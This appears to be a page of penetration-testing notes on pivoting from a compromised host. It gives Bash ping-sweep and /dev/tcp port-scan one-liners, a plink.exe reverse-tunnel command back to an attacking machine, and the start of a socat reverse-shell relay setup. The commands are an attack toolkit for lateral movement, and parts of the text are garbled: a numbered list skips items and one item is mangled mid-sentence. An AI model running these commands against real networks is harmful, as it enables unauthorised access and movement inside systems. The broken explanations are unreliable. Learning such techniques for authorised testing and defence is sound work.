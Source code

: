 check the DNS servers for an interface is with `ipconfig /all`

**living off the land shell techniques**

use an installed shell to perform a sweep of the network. For example, the following Bash one-liner would perform a full ping sweep of the 192.168.1.x network:

`for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done`

If you suspect that a host is active but is blocking ICMP ping requests, you could also check some common ports using a tool like netcat.

Port scanning in bash can be done (ideally) entirely natively:

`for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done`

### plink.exe

Plink.exe is a Windows command line version of the PuTTY SSH client

{% embed url="https://fr.wikipedia.org/wiki/PuTTY" %}

the use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:\
`cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`

2. `echo y`: This command is used to output the letter 'y' to the console. In this context, it's used to automatically answer 'yes' to any prompts that may appear during the execution of Plink.exe.
3. `.\plink.exe`: This is the Plink executable. The `.\` is used to specify that the file is in the current directory.
4. `-R LOCAL_PORT:TARGET_IP:TARGET_PORT`: This is the remote forwarding local port (LOCAL\_PORT) should be forwarded to a remote address (TARGET\_IP) and port (TARGET\_PORT).

USERNAME@ATTACK the SSH service is running.

6. `-i KEYFILE`: This is used to specify the path to the private key file (KEYFILE) for authentication.
7. `-N`: This option is used to specify that no command will be sent once the connection is made (i.e., a reverse shell).

Ex:

&#x20;if we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80 back to port 8000 our own attacking machine (172.16.0.20), we could use this command:\
`cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N`

### Socat

static binaries are easy to find for both [Linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\_64/socat) and [Windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86\_64.zip/download)

{% embed url="https://linuxfr.org/news/socat-un-outil-en-ligne-de-commande-pour-maitriser-vos-sockets" %}

if you are attempting to get a shell on a target that does not have a direct connection back to your attacking computer, you could use socat to set up a relay on the currently compromised machine. This listens for the reverse shell from the target and then forwards it immediately back to the attacking box:
